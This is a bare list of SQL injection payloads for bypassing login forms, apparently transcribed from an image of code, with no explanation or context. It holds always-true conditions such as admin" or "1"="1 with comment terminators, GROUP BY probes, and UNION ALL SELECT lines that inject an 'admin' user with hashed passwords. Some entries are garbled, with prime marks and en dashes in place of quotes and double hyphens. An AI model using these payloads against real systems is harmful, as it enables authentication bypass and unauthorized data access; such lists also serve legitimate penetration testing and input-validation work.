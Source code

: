 ```
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
1234 " AND 1=0 UNION ALL SELECT "admin", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
==
=
'
' --
' #
' –
'--
'/*
'#
" --
" #
"/*
' and 1='1
' and a='a
or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
' AND 1=0 UNION ALL SELECT '', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
" AND 1=0 UNION ALL SELECT "", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
and 1=1
and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
like '%'
or 0=0 --
or 0=0 #
or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
or 1=1–
' or 1=1--
```